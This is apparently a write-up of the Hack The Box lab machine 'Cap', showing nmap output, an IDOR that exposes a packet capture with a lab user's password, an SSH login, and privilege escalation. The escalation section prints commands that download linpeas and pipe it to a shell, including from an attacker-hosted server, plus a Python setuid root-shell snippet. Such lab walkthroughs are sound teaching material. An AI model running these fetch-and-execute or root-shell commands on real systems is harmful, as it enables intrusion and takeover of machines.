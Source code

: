 # Cap Write-up

<img src="https://labs.hackthebox.com/storage/avatars/70ea3357a2d090af11a0953ec8717e90.png" width="200" height="200">

## Recon 

### Port enumeration with NMap

`nmap -sC -sV 10.10.10.245`

    PORT   STATE SERVICE VERSION
    21/tcp open  ftp     vsftpd 3.0.3
    22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
    |   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
    |_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
    80/tcp open  http    gunicorn
    |_http-title: Security Dashboard
    | fingerprint-strings: 
    |   FourOhFourRequest: 
    |     HTTP/1.0 404 NOT FOUND
    |     Server: gunicorn
    |     Date: Tue, 03 Dec 2024 11:35:14 GMT
    |     Connection: close
    |     Content-Type: text/html; charset=utf-8
    |     Content-Length: 232
    |     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
    |     <title>404 Not Found</title>
    |     <h1>Not Found</h1>
    |     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
    |   GetRequest: 
    |     HTTP/1.0 200 OK
    |     Server: gunicorn
    |     Date: Tue, 03 Dec 2024 11:35:05 GMT
    |     Connection: close
    |     Content-Type: text/html; charset=utf-8
    |     Content-Length: 19386
    |     <!DOCTYPE html>
    |     <html class="no-js" lang="en">
    |     <head>
    |     <meta charset="utf-8">
    |     <meta http-equiv="x-ua-compatible" content="ie=edge">
    |     <title>Security Dashboard</title>
    |     <meta name="viewport" content="width=device-width, initial-scale=1">
    |     <link rel="shortcut icon" type="image/png" href="/static/images/icon/favicon.ico">
    |     <link rel="stylesheet" href="/static/css/bootstrap.min.css">
    |     <link rel="stylesheet" href="/static/css/font-awesome.min.css">
    |     <link rel="stylesheet" href="/static/css/themify-icons.css">
    |     <link rel="stylesheet" href="/static/css/metisMenu.css">
    |     <link rel="stylesheet" href="/static/css/owl.carousel.min.css">
    |     <link rel="stylesheet" href="/static/css/slicknav.min.css">
    |     <!-- amchar
    |   HTTPOptions: 
    |     HTTP/1.0 200 OK
    |     Server: gunicorn
    |     Date: Tue, 03 Dec 2024 11:35:06 GMT
    |     Connection: close
    |     Content-Type: text/html; charset=utf-8
    |     Allow: OPTIONS, HEAD, GET
    |     Content-Length: 0
    |   RTSPRequest: 
    |     HTTP/1.1 400 Bad Request
    |     Connection: close
    |     Content-Type: text/html
    |     Content-Length: 196
    |     <html>
    |     <head>
    |     <title>Bad Request</title>
    |     </head>
    |     <body>
    |     <h1><p>Bad Request</p></h1>
    |     Invalid HTTP Version &#x27;Invalid HTTP Version: &#x27;RTSP/1.0&#x27;&#x27;
    |     </body>
    |_    </html>
    |_http-server-header: gunicorn
    1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
    SF-Port80-TCP:V=7.94SVN%I=7%D=12/3%Time=674EECE9%P=x86_64-pc-linux-gnu%r(G
    SF:etRequest,2F4C,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:\
    SF:x20Tue,\x2003\x20Dec\x202024\x2011:35:05\x20GMT\r\nConnection:\x20close
    SF:\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20
    SF:19386\r\n\r\n<!DOCTYPE\x20html>\n<html\x20class=\"no-js\"\x20lang=\"en\
    SF:">\n\n<head>\n\x20\x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20
    SF:\x20<meta\x20http-equiv=\"x-ua-compatible\"\x20content=\"ie=edge\">\n\x
    SF:20\x20\x20\x20<title>Security\x20Dashboard</title>\n\x20\x20\x20\x20<me
    SF:ta\x20name=\"viewport\"\x20content=\"width=device-width,\x20initial-sca
    SF:le=1\">\n\x20\x20\x20\x20<link\x20rel=\"shortcut\x20icon\"\x20type=\"im
    SF:age/png\"\x20href=\"/static/images/icon/favicon\.ico\">\n\x20\x20\x20\x
    SF:20<link\x20rel=\"stylesheet\"\x20href=\"/static/css/bootstrap\.min\.css
    SF:\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/css/
    SF:font-awesome\.min\.css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\
    SF:x20href=\"/static/css/themify-icons\.css\">\n\x20\x20\x20\x20<link\x20r
    SF:el=\"stylesheet\"\x20href=\"/static/css/metisMenu\.css\">\n\x20\x20\x20
    SF:\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/css/owl\.carousel\.mi
    SF:n\.css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/stati
    SF:c/css/slicknav\.min\.css\">\n\x20\x20\x20\x20<!--\x20amchar")%r(HTTPOpt
    SF:ions,B3,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:\x20Tue,
    SF:\x2003\x20Dec\x202024\x2011:35:06\x20GMT\r\nConnection:\x20close\r\nCon
    SF:tent-Type:\x20text/html;\x20charset=utf-8\r\nAllow:\x20OPTIONS,\x20HEAD
    SF:,\x20GET\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest,121,"HTTP/1\.1
    SF:\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\nContent-Type:\x20t
    SF:ext/html\r\nContent-Length:\x20196\r\n\r\n<html>\n\x20\x20<head>\n\x20\
    SF:x20\x20\x20<title>Bad\x20Request</title>\n\x20\x20</head>\n\x20\x20<bod
    SF:y>\n\x20\x20\x20\x20<h1><p>Bad\x20Request</p></h1>\n\x20\x20\x20\x20Inv
    SF:alid\x20HTTP\x20Version\x20&#x27;Invalid\x20HTTP\x20Version:\x20&#x27;R
    SF:TSP/1\.0&#x27;&#x27;\n\x20\x20</body>\n</html>\n")%r(FourOhFourRequest,
    SF:189,"HTTP/1\.0\x20404\x20NOT\x20FOUND\r\nServer:\x20gunicorn\r\nDate:\x
    SF:20Tue,\x2003\x20Dec\x202024\x2011:35:14\x20GMT\r\nConnection:\x20close\
    SF:r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x202
    SF:32\r\n\r\n<!DOCTYPE\x20HTML\x20PUBLIC\x20\"-//W3C//DTD\x20HTML\x203\.2\
    SF:x20Final//EN\">\n<title>404\x20Not\x20Found</title>\n<h1>Not\x20Found</
    SF:h1>\n<p>The\x20requested\x20URL\x20was\x20not\x20found\x20on\x20the\x20
    SF:server\.\x20If\x20you\x20entered\x20the\x20URL\x20manually\x20please\x2
    SF:0check\x20your\x20spelling\x20and\x20try\x20again\.</p>\n");
    Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

### WEB 

![image](https://github.com/user-attachments/assets/ad734ab8-84dc-47ab-95aa-957270f3dd59)

IP config

![image](https://github.com/user-attachments/assets/f92207a3-25e2-4916-9916-64f7a61cc292)

Network Status

Security Snapshot

![image](https://github.com/user-attachments/assets/e9e48544-a992-4873-ab77-2ff74b04ffeb)

## Exploitation 

### IDOR

http://10.10.10.245/data/0

![image](https://github.com/user-attachments/assets/3a7f9411-16db-4c4d-8934-b43ee62cb419)

0.pcap

![image](https://github.com/user-attachments/assets/54407fd9-171b-410c-93ba-183c870c7876)

Credentials

`nathan`:`Buck3tH4TF0RM3!`

### SSH

Connect to SSH via `nathan` credetials!

    ssh nathan@10.10.10.245

Get the user flag!

![image](https://github.com/user-attachments/assets/6dc06f66-6358-4971-9cf8-d16cfc49df59)

### Privelege Escalation 

[LinPeas](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)

[![asciicast](https://asciinema.org/a/250532.png)](https://asciinema.org/a/309566)

You can run linpeas from github

    curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh

Or get it localy and run it. 

    # on host
    wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh

    python3 -m http.server 80

    # on victim

    curl -l http://your-address/linpeas.sh | sh

![image](https://github.com/user-attachments/assets/7f6cffe7-c8c8-4f44-b84a-e6701aa460f9)

    import os
    os.setuid(0)
    os.system("/bin/bash")

